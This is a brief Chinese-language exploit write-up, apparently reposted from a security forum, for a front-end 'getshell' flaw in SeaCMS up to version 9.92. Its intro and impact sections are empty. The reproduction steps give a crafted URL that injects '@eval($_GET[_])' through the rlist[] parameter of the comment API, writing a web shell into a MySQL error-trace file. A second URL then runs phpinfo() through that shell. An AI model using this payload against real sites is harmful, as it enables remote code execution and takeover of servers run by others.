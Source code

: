 # Seacms <= 9.92 前台Getshell

> 原文：[https://www.zhihuifly.com/t/topic/3118](https://www.zhihuifly.com/t/topic/3118)

# Seacms <= 9.92 前台Getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=*hex/@eval($_GET[_]);?%3E 
```

> 然后访问：

```
http://0-sec.org/data/mysqli_error_trace.php?_=phpinfo(); 
```